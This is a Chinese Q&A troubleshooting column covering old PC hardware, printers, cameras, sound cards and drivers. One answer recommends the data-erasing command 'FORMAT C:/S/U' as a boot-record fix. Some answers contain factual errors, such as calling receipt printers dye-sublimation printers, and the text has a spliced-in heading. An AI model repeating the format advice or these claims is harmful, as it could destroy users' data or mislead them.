问：我的USB外置光盘驱动器在连接到电脑后可以在系统内的“我的电脑”中出现光盘盘符，但双击后无法打开和读取光盘中的数据，系统提示“设备没有准备好”。请问这是什么原因造成的？

答：导致此问题的原因应该是电脑上USB端口的供电无法满足外置光驱的工作需求，给外置光驱连接外接电源即可解决问题。

## SATA硬盘有通用驱动程序吗

问：SATA硬盘有通用驱动程序吗？

答：SATA驱动并不是指硬盘驱动，而是指SATA控制器驱动，分为主板芯片组南桥内置和额外添加的第三方控制芯片两类，由于各生产厂家都有不同的设计（在BIOS设置中就可看出不同），如Intel、VIA、SiS主板芯片的SATA控制器部分就有明显的区别，因此各厂家的驱动不能通用。一般主板都会附带驱动软盘，但也有仅提供主板驱动光盘的，你需要将SATA驱动文件复制到软盘。还有的是需要用主板光盘的特定程序制作SATA驱动软盘，这点需要看主板说明书上的相关说明。

## MP3播放器无法开机故障

问：我使用的朝华“神曲飞梭”MP3播放器出现了无法开机的现象，电池和Hold键都检查过了，没有问题。请帮我解决一下。

答：
- 通过随播放器附赠的驱动程序光盘在电脑的操作系统中安装朝华“神曲飞梭”MP3播放器驱动程序。
- 在MP3播放器关机状态下，按住Play键不放，把MP3连接到电脑的USB端口上并保持5秒钟后再松开Play键。
- 在系统中运行Player Update工具，建议将Quick Download项设为不选中状态，然后用鼠标单击Start按钮开始刷新。
- 刷新操作运行完毕，单击“Close”按钮关闭更新操作后即可正常使用MP3播放器了。

需要注意的是：在通过USB端口对MP3进行读写操作时切不要断开连接，同时最好不要在MP3中放置电池。

## 劣质网卡引发ADSL宽带频频断线

问：ADSL宽带经常无故断线，断线间隔上也没有规律性可言，并时常伴有宽带数据间歇性断流的现象。该如何解决？

答：此类故障笔者认为一般应从线路质量、网卡质量、ADSL Modem工作稳定性这三个方面查找原因。处理过程：因以前这台电脑拨号上网时极少出现断线的情况，所以线路质量差的因素可以排除；另外，此款ADSL Modem 乃某名牌大厂的成熟产品，所以Modem的工作稳定性应该值得肯定；疑点最大的就是网卡，因此机的网卡是电信公司安装宽带时所赠送，直接为系统更换一块RTL8139的网卡后上述故障果然消除。事后小结一下：在当今的ADSL宽带时代，ADSL Modem工作时都需要通过网卡来收发网络数据、对网卡的质量要求也比以前有所提高。在此提醒大家在使用ADSL宽带时，应该选用质量较好的网卡。

## 安装网卡后系统启动时间变长

问：安装网卡后操作系统启动时间明显变长，如何解决呢？

答：这种现象严格来讲，应该不算是系统故障，因为在安装有网卡的系统中启动时会自动尝试连接网络和寻找DNS服务器以便获取IP地址，这无形中会耗费一些时间。为使系统启动时间能变得短一些，我们可以从“控制面板”中启动“网络”组件框，为网络适配器的TCP/IP协议指定本地IP地址；若您的电脑只联接在局域网中，那就完全可以删掉除NetBEUI协议以外的全部网络协议，并在“Microsoft网络用户”的属性中选择“快速登录”项，这样可以有效地缩短启动时间。当然，若您的电脑是联在宽带上，并需要自动获取IP地址的话，那上述方法就不适用了。

## 为何耳麦有回音 Modem没声音

问：最近碰到两个关于声音的问题：一是语音通话时，总听到自己刚刚讲过的话回放，二是Modem没有拨号音。

答：打开Windows 98中音量控制窗口，在“选项”菜单中打开“属性”将“回放”中所有的音量控制全部显示并单击“确定”。这时可能一屏幕显示不下，可以按Ctrl+S来缩小窗口。去掉所有静音，只将“话筒（Mic）”项静音勾上。这样就听不到回音了。再次打开“属性”窗口，将“录音”中所有的音量控制全部显示并单击“确定”，并只将话筒（Mic）项勾上。这样就听到Modem的拨号音了。其中的“所有（All）”还可以同进行多项录音，可以根据需要选用。

## 如何解决硬盘引导记录损坏

问：出现“Disk boot failure，Insert system disk”（硬盘引导记录损坏，插入系统盘）信息时，怎么办？

答：若出现此类信息，表明系统引导区受损或遭到病毒侵袭。比较保险的方法是：通过确认无病毒的系统软盘启动，使用系统软盘上的FORMAT命令（格式为：FORMAT C:/S/U），对硬盘的引导记录进行复写。但是要注意，此命令也把C盘上的所有资料全部清空。

## 检查数码相机CCD上的坏点

问：最近，我买了一台数码相机，很多人都说数码相机的CCD有可能会产生坏点。但是直接靠肉眼在数码相机的小小的液晶显示屏上看是很难分辨出CCD坏点，即使将照片输入电脑，通过肉眼往往也不容易发现CCD上的坏点。那么，我们该如何检查数码相机的CCD坏点呢？

答：这里就要用到专门测试数码相机CCD坏点的软件Dead Pixel Test。首先，要用相机拍摄一张全黑的照片。拍摄这张照片，对于单反以及能够加转接环的相机最好的方法就是不将镜头盖取下直接拍摄。拍摄完成后，将图片传入电脑，打开Dead Pixel Test软件，点击右侧的“Browse”按钮，选择测试文件。测试数据中，Hot表示噪点，Dead表示坏点。如此就可以在选购数码相机时多一重保障。数码相机随机出现一些噪点是正常的，不用过分担心。一般在夏天的测试结果就可能比冬天测试时的噪点要多，开机之后，过一段时间再测试，会比开机后直接测试时噪点也要多一些。

## 数码摄像机该如何正确清洗磁头

问：数码摄像机该如何正确清洗磁头？

答：摄像机越来越多地进入普通家庭，在使用一段时间后，由于灰尘附着在视频磁头，影响摄像效果。因此，必须对视频磁头进行清洗，这里有几种选择。首先，使用专用清洗带清洗，它可以清除走带通路中所能触及到的所有部件上的污垢和磁粉。其次，使用清洗液清洗，用鹿皮、不起毛的棉布或布刷蘸适量的清洗液顺着磁鼓旋转的方向轻轻擦拭。除此以外，还可使用新的录像带清洗，这适用于磁头不太脏时，首先接通摄像机的电源，将一盘新磁带插入摄像机内，按下放像键走带约半小时，只要磁头不是太脏一般都能清洗干净。如果清洗效果不理想，可再适当延长走带时间。
不要过于频繁进行磁头清洗，这种操作总是有磨损的。其次，使用清洗液时要顺着磁鼓旋转方向，不能上下来回擦拭。擦拭时一定要注意不要将清洗液滴在摄像机的橡胶轮上，以免引起橡胶老化或龟裂。

## RAID选项设置不当引起系统安装失败

问：我的电脑配置是华硕P4P800主板，Intel P4 C2.4GHz的CPU和KingMax DDR 512MB内存。但在安装Windows XP时却出现了如下问题：复制安装文件到硬盘后执行安装，几分钟后出现蓝屏，再次使用光驱启动安装系统依然在安装过程中蓝屏。将系统安装光盘放到其他电脑上可以正常安装。请问这是何故？
（北京 鹏鹏）

答：由于这款主板南桥芯片中集成了RAID0功能，因此在安装系统时与普通主板有所区别。若电脑只配置了一块硬盘时，在安装操作系统前应该参看主板说明书，将主板BIOS中的RAID选项关闭，然后才能正常安装操作系统，否则就容易出现你所遇到的问题。

## 开机时出现CMOS容量不匹配错误

问：我的电脑最近开机后显示器上出现如下提示：“CMOS Memory size mismatch; Run Setup Utility; Press to Resume”，我的主板采用的是AMI的BIOS程序。请问这个提示有什么含义，遇到这种情况该如何处理？（大连 陆遥）

答：出现这个英文提示表示你电脑的CMOS芯片容量大小出现了不匹配的问题，很可能是你将扩充CMOS设置中的Video ROM shadow C0000、Video ROM shadow C400、System ROM shadow F000参数项设置为Enabled导致的。解决该问题的方法如下：
- 启动电脑后按F1键进入AMI BIOS SETUP UTILITIES设置界面。
- 选择ADVANCED CMOS SETUP（高级CMOS设置）项并按回车键进入。
- 将AUTO Config Function参数项由Enabled改为 Disabled。

保存更改并退出即可。

## 更换显卡后软件找不到AGP存储器

问：为什么我在更换了显卡后，运行一些软件时系统提示说没有可用的AGP存储器？
（陕西 胡海峰）

答：你可以尝试如下解决方法：## 如何优化Windows系统性能

如果你使用的是 Windows 95，建议更新到 OSR2.1 版；如果是 Windows 98，建议更新到 Windows 98SE 版。
如果系统中安装的 DirectX 版本是 7.0 以下的版本，建议升级到更高版本。
从随主板附送的驱动程序安装光盘中安装 AGP 芯片组驱动程序和其他补丁程序，安装完成后重新启动操作系统。
开机后按 Del 键进入 BIOS SETUP，找到 AGP 缓冲区的设置项（不同主板参数不同，可参看主板说明书），如果该参数不能支持 64MB 以上的 AGP 缓冲区，则你需要更新 BIOS 甚至更换主板。

## 打印机一次进多页纸的故障

问：我在使用打印机进行打印的操作过程中，常常会遇到打印机一次进多页纸的现象，非常影响工作效率，请问如何才能有效避免这类现象的发生？（河北 张健英）

答：对于一次进多页纸的问题可以采用如下方法解决：

- （1）检查打印纸的位置是否放置正确，正确的纸张高度不能高于纸槽左侧导轨上的箭头标志。
- （2）检查一下打印纸规格是否符合使用要求：重量为 60 克到 180 克的打印纸才能符合要求，而低于 60 克的超薄打印纸，很容易出现同时进多页纸的现象。
- （3）打印纸表面不够平整也会导致一次进多页纸的现象，为此必须确保打印纸表面平整光滑。
- （4）有时静电感应也会造成一次进多页纸的现象，因此最好在安装打印纸之前，先将打印纸以扇形方式摊开，以确保每张纸可以单独分离，然后再按正确方法将打印纸装入到导纸槽中。
- （5）对于具有纸厚调节功能的打印机来说，调整好调节杆的位置是很重要的。在使用不同类型的打印纸时，纸厚调节杆的位置也是不一样的，例如在使用常规厚度的打印纸时，必须将调节杆的位置设为“0”。当然，不同打印机对调节杆的调节标准是不一样的，最好参考一下打印机说明书。

## Linux操作系统下使用USB闪盘

问：请问如何在 Linux 操作系统下使用 USB 闪盘？（天津 安浩宇）

答：在 Linux 系统下使用 USB 闪盘需要进行如下操作：

（1）将 USB 闪盘插到主板的 USB 接口上。
（2）在 Linux 系统中进入终端命令行模式，用以下命令为外挂点新建一个子目录：`mkdir /mnt/usb`
（3）USB 存储设备通常被识别为 sda1，具体可通过 `fdisk -l` 命令查询。查看完毕后再执行如下命令：`mount -t msdos（或 vfat）/dev/sda1/mnt/usb`

## 如何更换风扇和散热片一体的显卡风扇

问：我的显卡风扇经常停转，可是风扇和散热片一体的，请问该如何更换？（福建 刘珍）

答：现在很多显卡上的风扇和散热片都是一体的，一旦损坏很难更换。这里告诉你一个小技巧。一般散热片是用硅胶粘到芯片上的，用丙酮之类的有机溶剂小心地滴在散热片与芯片的结合部位。找来电吹风，开到热风档，对准散热片和芯片吹了几分钟，再左右晃动散热片，一般就能将散热片取下来了。

## 喷墨打印机可以打印金银色吗

问：我想请问一下，目前有哪种打印机可以打印出金银等颜色。因为我公司有需要使用到这类打印机，希望你能告知一二。（上海 何慧）

答：传统的喷墨打印技术无法输出金、银效果，除非你用特殊纸张（例如：热转印）和软件。目前惟一能够做金银色输出的只有 Alps MD 系列全彩干式印像机，但是市场上很少能见到。

## 为何用OCR识别时文字有乱码

问：为何我用 OCR 软件识别出来的文字有乱码？（北京 王丽娜）

答：是否原稿的方向不对，请正确调整原稿方向。
是否定义的文字属性（简体多体、繁体多体、纯英文、手写体等）与原稿不符。如果字体为斜体或艺术字等，此类原稿不能被正确识别。
是否原稿中的分辨率设置不当，请在扫描时设置相应的文字属性。
扫描文稿时设定了镜像处理功能，扫描结果图像与原稿左右相反。如果原稿不清晰（如传真件、油印试卷、报纸等），可以适当地调节图像的对比度或亮度以得到较好的扫描效果，提高识别率。

## 什么样的数码相机适合水中拍摄

问：由于兴趣关系，目前想拍水族箱里的鱼，是不是要选择对焦速度快、近拍功能、大光圈的机型？300 万像素左右的数码相机有哪些适合我的需求？（江苏 刘华）

答：室内拍摄最大的优点是可以控制环境。对焦速度快、具有卓越的近拍能力和大光圈，可以帮助你快速清楚地拍下景物，大光圈可以让数码相机关闭内建闪光灯，避免打在玻璃造成反光。不过，这些阻碍拍摄的因素也可以通过环境弥补，例如：你可以换一个较小的鱼缸。
300 万像素目前市面上的机型相当多，如果你想要享受水中追拍的乐趣，可以考虑添购一个跟你的数码相机配套的潜水盒，例如适用尼康 Coolpix 2200/3200/4100 的潜水盒。当然，也可以直接买一台 JIS 7 级以上、可以水下拍摄的数码相机，例如：SONY CyberShot DSC-U60、Olympus μ 410D、Pentax Optio WP。

## 小知识

JIS（日本工业协会）制订一套电子产品防水标准，1~6级是能抵受由汗水及倾盆大雨的防水标准，即所谓生活防水，由7级开始才可以入得下水。
- 1~2级：可抵受不同水滴
- 3~4级：可抵受不同程度水花
- 5~6级：可抵受不同程度射水
- 7级：可浸入水深1米，30分钟为限
- 8级：可长期浸入水中，就是最专业级数了。

## 非标准工作频率导致硬盘频频出错

问：一台电脑，配置为 KX133 主板，希捷酷鱼 15.3GB 硬盘，CPU 为 AMD K7 550MHz，超频到 115 × 5.5 = 633MHz，使用一段时间硬盘在读写文件时频频出错，重装 Windows 也不能解决问题。（新疆 盘俊春）

答：请将 CPU 的频率降回 100MHz 外频。当系统超频在非标准外频的时候，PCI 等总线的运行频率也将随之提升，这样一来就使得硬盘也处于超频的工作状态之下。与 CPU 超频的情况类似，不同的硬盘对超频的适应能力也是不同的，尤其是系统运行在非标准外频下的时候。

## OCR识别时提示“只能扫描二值图像”

问：我用紫光 OCR MF7.5 进行 OCR 识别，在扫描文稿图像时，提示“只能扫描二值图像”或“该程序执行了非法操作”，应如何解决？（山东 杨柳）

答：OCR 软件一般只能识别黑白图像，因此扫描时只能使用“黑白二值”模式。若设置了多个扫描区域，而其中有区域设置为彩色或灰度模式，便会出现“该程序执行了非法操作”的提示。

## SONY相机存储卡识别问题

SONY 相机使用存储卡时的引导文件也同时删除了，造成相机识别不出存储卡的问题。你可以采用如下方法解决问题：通过电脑和读卡器在存储卡中建立一个带有图片的“DCIM”文件夹，再将存储卡装到相机上，这样就可以使用了。如果这样还不能解决问题，就应该更换存储卡。

## 液晶显示器启动时出现花屏

问：为什么我的液晶显示器在启动时会出现花屏现象，启动后就会恢复正常？（山西 杨和平）

答：这种现象一般是由于显卡上没有数字接口，而是通过内部的数字/模拟转换电路与显卡的 VGA 接口相连。这种连接形式虽然解决了信号匹配的问题，但它又带来了容易受到干扰而出现失真的问题。究其原因，主要是因为液晶显示器本身的时钟频率很难与输入模拟信号的时钟频率保持百分之百的同步，特别是在模拟同步信号频率不断变化的时候，如果此时液晶显示器的同步电路或是与显卡同步信号连接的数据传输线出现了短路、接触不良等现象，就会导致液晶显示器因为不能保持信号同步而出现花屏的问题。你可以到厂商的维修部门对显示器内部电路进行调整以解决问题。

## 打印机不能进纸故障解决

问：打印机有时会出现不进纸的现象，请问这种情况该如何处理？（贵州 阿磊）

答：解决打印机不进纸问题的方法是：首先检查一下打印纸的安装是否符合标准，例如装入位置是否已经超出打印机左导轨箭头标志，如果超过的话，必须减少打印纸。其次看看打印机内部是否有什么异物堵塞，例如打印机中出现夹纸，就会导致不进纸的问题。如果有异物，必须要将它清除，排除时一定要先将打印机电源关闭，然后小心地取出异物。如果要取出夹纸，必须沿出纸方向将夹纸缓慢拉出，取出夹纸后还要检查是否有残留碎纸存在，将碎纸也清除干净。如果使用的打印纸存放时间过长，并且表面有潮湿感觉的话，也有可能出现不进纸的现象，此时我们要做的就是要烘干打印纸。如果使用的是喷墨打印机，黑色墨盒或彩色墨盒的指示灯闪烁或直亮提示墨水即将用完。如果墨盒为空时，打印机将不能进纸。

## P4主板连接USB设备烧坏南桥芯片

问：最近经常听说在 P4 主板上连接 USB 设备时烧坏主板南桥芯片的问题，请问这是怎么回事？如何才能有效避免？（陕西 白马王子）

答：USB 设备的优点是可以带电热插拔，但也正由于热插拔而容易导致很强的静电放电（ESD）现象。静电电压有可能造成电子元件被击穿，尤其是 USB 控制器和 USB-HUB，这两个器件就在主板南桥芯片内，因此表现为南桥芯片被烧毁。USB 外设原本应该具有静电防护功能，但是不少 USB 外设省掉了这个功能。避免这类问题的方法是：

- （1）插拔 USB 设备时，最好先把设备进行接地（接触金属物）操作以释放静电。
- （2）廉价的 USB 设备、传输线危险性更大，建议购买中、高档产品。
- （3）对于高档 USB 设备，尽量不要带电插拔。

## SATA硬盘可以安装RedHat 9系统

问：我的电脑中使用的是 SATA 硬盘，请问可以安装 RedHat 9 系统吗？（内蒙古 王勇）

答：可以，在安装之前需要进入主板 BIOS，选择 Main 下的 IDE Configuration Menu，找到 Onboard IDE Operate Mode 项，将其参数选择为 Compatible Mode，然后按 F10 键选择保存退出，这样可以保证系统能够找到硬盘。系统安装好后，要升级内核到 2.4.22，如果使用的 CPU 支持超线程，请在编译内核时选择 SMP 的支持。接着修改 GRUB 的启动参数，将 hda 改成 hde，分区号不变。你还要根据实际情况修改 fstab，把 hd 改为 sd，使系统启动后能激活“SWAP”交换分区。重新启动后，将 BIOS 中的 Compatible Mode 改为 Enhanced Mode，这样就能发挥 SATA 接口的性能了。

## 如何修复有明显划痕的硒鼓

问：我有一台激光打印机，最近发现打印出来的纸张上出现局部黑纹，取下硒鼓后，看到上面有明显的划痕。请问该如何修复？（北京 陈瑞利）

答：激光打印机是采用静电方式进行打印输出的，硒鼓是激光打印机输出的重要器件。激光打印机使用时间较长后，打印出来的文字、图像便模糊不清，底灰加重及字形变长，其原因是硒鼓表面膜光敏特性衰老，表面电位下降，残余的电压升高所致。最简便方法是更换新硒鼓，但无疑是种浪费。维修实践告诉人们，遇到这种情况可采用下述方法进行修复：到化学试剂商场买三氧化二铬，每次取 3~5g，用脱脂棉直接蘸三氧化二铬，顺着鼓轴方向轻轻、均匀、无遗漏地擦拭一遍。擦拭时要异常小心，避免指甲将硒鼓膜划伤。亦不能用力过重，防止将硒鼓膜磨漏而使硒鼓报废，在每次修复后可重新打印输出近万张的纸，使硒鼓寿命得以延长。若硒鼓的光敏膜已脱落，则不能用此方法修复。

## Windows 98电源管理键有何作用

问：请问键盘上的 Fn、Power off、Sleep、Wake up 有什么作用？（北京 王启东）

答：Fn（Function）键用于与其他键组合形成软键，可执行电脑特定的功能。软键是具有有效、无效或配置特定特性功能的键组合。但是一些软件可能会禁止或干扰软键操作，恢复特性不会恢复软键设置。Windows 98 兼容键盘比一般传统键盘多了三颗专为 Windows 98 设计的电源管理键：Power off、Sleep、Wake up，使用者有了电源管理键，可以轻易地控制电脑主机的电源，例如关机或进入省电的睡眠状态，非常方便。“Power Off”可直接进行关机状态，“Sleep”可进入省电状态，延长 PC 使用寿命，“Wake up”键可回复正常操作模式。

## 安装虚拟光驱导致物理光驱“丢失”

问：我在安装光驱时，安装一个虚拟光驱软件，但安装虚拟光驱后，有时会发现原来的物理光驱“丢失”了。（山西 罗福斌）

答：这是由于硬件配置文件设置的可用盘符太少了。用 Windows 自带的记事本程序打开 C 盘根目录下的“Config.sys”文件，加入“LASTDRIVE=Z”，保存退出，重启后即可解决问题。在安装双光驱的情况下安装低版本的“虚拟光碟”后，个别情况会表现为有一个或两个物理光驱“丢失”！建议：换个高版本的或其它虚拟光驱程序。而驱动的问题也同样不能忽视，因为在 Windows 系统中，当主板驱动因病毒或误操作而引起丢失时，会使 IDE 控制器不能被系统正确识别，从而引起光驱故障，这时我们只要重新安装主板驱动就可以了。另外，当一个光驱出现驱动重复或多次安装等误操作时会使 Windows 识别出多个光驱，这会在 Windows 启动时发生蓝屏现象。我们只要进入 Windows 安全模式（点选“我的电脑→属性→CD-ROM”）删除多出的光驱就解决了。

## 为何喷墨打印机经常不出墨

问：为何喷墨打印机在联机或自检时，打印头有动作，但打印经常不出墨？（广东 苏东轼）

答：这一情况发生，有多方面原因，包括喷头故障、清洁单元故障、电镀及电路板故障等。进行处理的一种方法：先用一把镊子钳，将打印机的上盖打开，然后将打印机开机，找到打印机左端的清洁单元，在清洁单元上有一个小的方型的橡胶墨盒盖帽，它的功能是用来将打印头密封的，如果打印头没有被密封，在清洁单元对打印头进行清洗时，就不能够将墨水吸出，从而打印不出墨水。先看这一个墨盒盖帽有没有脱落掉下，如果掉下，用镊子钳拿起它，并将它以竖直方向装到清洁单元的吸墨口上，直到它的挂钩扣入吸墨口上；如果发现墨盒盖帽还在清洁单元的吸墨口上，但其位置不是以竖直方向而是斜向或横向摆放，就用镊子钳将墨盒盖帽的位置放成竖直位置；在此之后，请将墨盒清洗几次就可以进行正常打印操作。

## 笔记本电脑字母键与数字键合并

问：我在使用笔记本电脑时，有时会出现按一些字母键却出现数字的情况，重新启动后又好了，请问这是怎么回事？（重庆 小小菜鸟）

答：由于笔记本电脑为了减小键盘所占区域，将我们台式电脑键盘右侧的小数字键盘区合并在了主键盘区上，因此造成有些字母键通过切换后还有输入数字的功能，而你可能无意中按下了 NumLk 这个切换键导致出现按下字母键却显示数字的现象。所以你只要重新按一下 NumLk 键切换回去了就可以了。

## MP3播放器无法播放歌曲

问：我使用的是可扩充容量的 MP3 随身听播放器，扩充容量时使用过 SM 和 MMC 卡，但有时会出现读进来的歌曲无法被播放的情况。请问这是怎么回事？（广西 文武）

答：SM 和 MMC 卡本身不包括接口电路，卡上只有存储芯片和部分控制电路，因此它是依赖于所使用的设备来工作的，不同设备的数据格式可能不兼容，会在读卡器上写入的歌曲不能在 MP3 播放器上播放或管理的情况。相对来说 SD 卡的兼容性要强于 SM 和 MMC 卡，你可以改用 SD 卡来扩充其闪存容量。

## 东芝TE2100笔记本BIOS设置

问：我使用的是东芝 TE2100 的笔记本电脑，想在开机后进入 BIOS 设置，但无论按什么键都无法进入。请问这是怎么回事？（大连 林佳）

答：东芝 TE2100 笔记本没有设置 DOS 界面的 BIOS，如果需要调整相关设置，你需要在 Windows 操作系统下通过东芝专门设置的控制台来完成。

## Radeon 8500显卡媒体播放问题

问：我使用的是 ATI 的 Radeon 8500 显卡，当使用 ATI DVDplayer 播放 DVD 影碟时总是出现错误提示，使用一些 3D 屏幕保护程序时也会出现错误。请问我该怎么办？（内蒙古 赵玉林）

答：到 ATI 的网站上下载最新的催化剂驱动程序进行安装即可。

## 购置热升华打印机的疑惑

问：我最近想购买一台打印机，主要用于打印照片和图像。市场上主流的打印机是喷墨的，可我还发现有一种叫热升华的打印机，打印质量也相当不错，而且体积很小巧。请问这种打印机与喷墨打印机相比有什么优势？（河北 王国星）

答：其实热升华打印机在日常生活中也被普遍使用，比如说一些超市中打印购物小票的打印机以及出租车上打印乘车发票的打印机都属于热升华类打印机。热升华打印机输出颜色的过程是通过控制相关部件的温度使打印色带上的颜料通过“升华→凝华”过程留存到打印纸张上，而喷墨打印机是通过向纸张上喷射墨滴来形成图案的。热升华打印机的优势主要体现在：
（1）在色彩的表现力上，热升华打印机要比喷墨打印机好，热升华打印机 300dpi 的精度几乎相当于喷墨打印机 4800dpi 的效果。同时其每种颜色的浓淡均由打印头的温度控制，可以有 256 级梯度，颜料又是通过升华过程施加到纸张上的，因此三种基色相互融合可以形成连续的色阶，所以单就打印效果而言，热升华打印机打印出图像的色彩逼真度和还原性相比喷墨打印机要好，非常适合于打印照片和图像。
（2）镀膜功能是热升华打印机独有的功能，由于热升华打印机主要是用于输出照片，而将照片镀膜之后，其整体的色彩感觉将会更加明亮鲜艳，而且还具有了防水、防指纹、抗氧化的功能，在保存时间上比传统的喷墨打印机打印出来的照片要长一些。热升华打印机的缺点在于价格相对昂贵，同时耗材价格也比较高，这样就导致了使用成本高。

## 玩游戏时音量控制按钮失效

问：我在玩游戏时发现音量总是很小，调节音量控制按钮也不起什么作用。请问这是何故？（河南 秦岭）

答：可能是如下原因引起的：
（1）声卡的驱动程序没有被正常安装或被破坏。建议重新安装声卡的驱动程序。
（2）有些声卡驱动程序无法完全支持高版本的 DirectX 程序，导致游戏声音出现问题。你可以卸载高版本的 DirectX，安装低版本的程序。
（3）有些比较“霸道”或不完善的音、视频播放软件会在底层控制声音播放的大小，导致上层的调节无法生效。这时你可以在系统中找一找这些软件，在其中的声音控制项中作调整。

## 安装系统检测硬件时死机

问：我在安装 Windows 98 时，安装程序在进行硬件检测过程中停止执行并死机。请问该如何解决？（北京 王一）

答：这是电脑中的硬件被系统检测出错误造成的问题。问题出现后你应该关闭电脑，片刻后再重启电脑，接着重新运行安装程序，由于程序已经安装完，此时可以选择“使用安全恢复”选项，这样在硬件检测时将跳过引起错误的部分。如果系统再次停止，重新执行上述步骤直至跳过错误部分，使硬件检测执行结束并继续安装系统。

## 6.1音箱可用5.1声卡输出6.1声道的声音吗

问：我的声卡只支持 5.1 声道输出，可以使用 6.1 声道音箱输出 6.1 声道的声音吗？（湖南 江涛）

答：据笔者所知，创新音诗派 6600 音箱就可以用 5.1 声道声卡输出 6.1 声道。在创新音诗派 6600 音箱的低音炮上，有个 5.1/6.1 或 6.1 upmix 的切换开关，当设置到 5.1/6.1 上的时候，音箱会根据用户的信号，自动播放出 5.1/6.1 声道的声音，如果用户的声卡只有 5.1 的声道输出，可以将开关设置到 6.1 Upmix 上，这样音箱会自动将 5.1 声道信号混合成 6.1 声道进行输出。

## 为何激打在打印时出现了一条平行于纸张长边的白线

问：我的激光打印机最近在打印时出现了一条平行于纸张长边的白线，请问这是什么原因造成的？（上海 高东理）

答：这种现象一般是由于激光打印机硒鼓内的碳粉不多造成的，你应该将硒鼓取出，将其左右匀速、匀力连续晃动一会儿，再放入激光打印机内。如打印正常，则说明硒鼓内的碳粉不多了，若打印时还有白线，则说明硒鼓出现物理损伤。

## 为何5.1声道声卡只有2个声道发声

问：我刚刚在电脑中安装的声卡明明是支持六声道的，可在 Windows 98 下播放 DVD 时，总是只有2个音箱能发出声音，其他音箱默不作声，请问这个问题如何解决？（广东 史历辉）

答：在确定音箱连接线正确、线路无故障的情况下，这个问题一般通过更改系统设置即可解决。启动Windows 98操作系统，在桌面上用鼠标左键单击“开始”按钮，选择“控制面板”。选择“多媒体→音频”中回放栏中的“高级属性”选项，找到其中的“扬声器设置”选项栏，点击其右侧的下箭头，在随后弹出的下拉列表中找到“环绕声扬声器”并选中它。连续选择“确定”按钮保存退出。打开DVD播放软件，在其中的“内容”或“设定”选项中，将“音效”选项的参数改为“六声道”即可。

## 为何无法调整显卡刷新频率

我是用杂牌的17英寸显示器，显卡是TNT2 16MB，可是在“显示属性→适配器→刷新速度”中，刷新频率总是采用“默认”，无法调整，这是怎么回事？（广西 刘晓东）

答：无法调整显卡刷新频率的问题与显示器、显卡、显示内存、驱动程序几个方面有关。驱动程序包括显卡、显示器驱动程序，特别是安装显示器驱动程序容易被忽略。如果在安装Windows 98时选择采用“Super VGA显示器”，则可能会造成无法调整显卡的刷新频率。

解决方法：重新安装显卡、显示器的驱动程序。如果在Windows 98下没有找到显示器的类型，也可以使用相似或其它显示器的驱动程序来代替，一般都可以正常使用。该方法也是进行显示器超频的一种方法，使用品牌显示器的驱动程序来提高普通显示器的工作性能。注意，使用该方法不能太贪心，如果刷新频率设置过高，超过显示器的最大刷新率，就有可能烧坏显示器或降低显卡使用寿命。

## 如何在购买时简单检测显示器质量

我想购买一台显示器，可市场上的显示器品牌很多，外观都差不多，有没有简单的办法在购买时检测一下显示器的质量？（浙江 余虹）

- 1. 不连接主机，打开显示器电源，使之内白屏状态，用手拍打显示器上面板，如果没有丝毫晃动，则说明显示器抗冲击性比较好。
- 2. 白屏状态下看一下颜色是否均匀，有没有波纹。
- 3. 白屏状态下将另一台开启的显示器靠近这一台，看看有没有暗条纹电磁干扰。关闭这台显示器，看看对另一台是否有电磁干扰。
- 4. 将亮度调节到最大，将对比度调节到中间，看看关机时是否有亮点和彩色块。

## 为何DC拍摄的照片与LCD看到的景物有位移现象

我在用数码相机拍摄时，为什么有时会出现拍摄出来的景物与LCD监视器里面看到的景物有位置移动的现象？（广东 钟在友）

答：出现这个问题的原因有：
- 1. 数码相机电池的电量不足了，应及时充电或更换电池。
- 2. 所有的数码相机本身在拍摄时都会有时间滞现象，也就是指按动快门后到实际拍摄出景物之间有一定的延迟时间，这时候如果景物有变化或拍摄者的手移动了位置都会造成该现象。解决的方法是先将快门按到一半的位置使相机先对准目标自动进行调焦，然后按下快门可以减少时滞现象；多使用三脚架；更换为时滞时间短的数码相机。

## 声卡无法捕获电视卡声音

为什么我在用5.1声卡录制电视卡的音频信号时总是没有声音，而电视卡的音频输出信号正常？（江西 封发兰）

答：有些5.1声卡在工作于6声道和4声道状态时会关闭音频输入，因此导致电视卡传输过来的信号无法被接收，你可以通过随声卡安装的控制软件将声卡的工作状态调整到2声道后再录制电视卡的声音。

## 开机自检过程中发生的错误

我的电脑在开机后显示BIOS ROM checksum error - System halted. Detecting floppy drive A media... Insert system Disk And Press ENTER. 随后死机。请问这是怎么回事？该如何解决？（北京 田天乐）

答：出现这个问题的原因是BIOS信息在开机后进行综合检查（checksum）时发现错误，因此无法正常启动电脑。这种问题通常是因为BIOS信息刷新不完全或者电脑被过度超频所造成的。你应该从主板生产厂商的网站上重新下载BIOS文件并进行刷新操作，如果电脑中有硬件被超频使用，建议恢复为标准工作频率。

## 安装主板IDE驱动出现死机

我使用的是精英K7S5A主板，附带的光盘中无IDE驱动，下载了SiS的最新IDE驱动204A，在Windows Me和Windows 2000下安装均死机。请问有没有适合我的主板的IDE驱动？（新疆 卡亚）

答：建议你选择通过WHQL（微软硬件质量实验室）认证的SiS 2.04.01WHQL版IDE/SATA驱动，下载地址：http://www.mydrivers.com/dir73/d29471.htm。

## 安装SATA驱动必须要软驱吗

在安装SATA驱动时必须要软驱吗？（四川 老猫）

答：你可以自己制作一张集成了所需SATA控制驱动的系统安装光盘，来免去必须从软驱加载的麻烦。但是，其制作方法和设置过程比较复杂，需要对Windows系统加载驱动的方式和SATA驱动文件有一定的了解，所以最省事的方法还是安装一个软驱。

## 集成声卡主板无法安装PCI声卡

我使用的是联想主板，集成了AC'97声卡，感觉效果不是很好，于是一块PCI接口的声卡，但安装总是不成功，出现蓝屏死机的问题，屏蔽了主板上的AC'97声卡也不行。请问该如何解决这个问题？（内蒙古 江浩）

答：你很可能是没有彻底屏蔽板载声卡，从而导致这个问题，彻底屏蔽板载声卡的操作步骤如下：
- (1)开机后按Del键进入BIOS SETUP。
- (2)在BIOS中进行如下设置：将AC'97 audio和AC'97 model项的参数由Enabled改为Disabled。将Game Port Address项的参数由Enabled改为Disabled。将Midi Port Address的参数由Enabled改为Disabled。
- (3)某些主板的BIOS里面除了需要更改上述参数外还有一个叫ONBOARD SOUND的选项，如果有，将这个选项的参数也设置为Disabled。

## 重新开机不能识别出鼠标

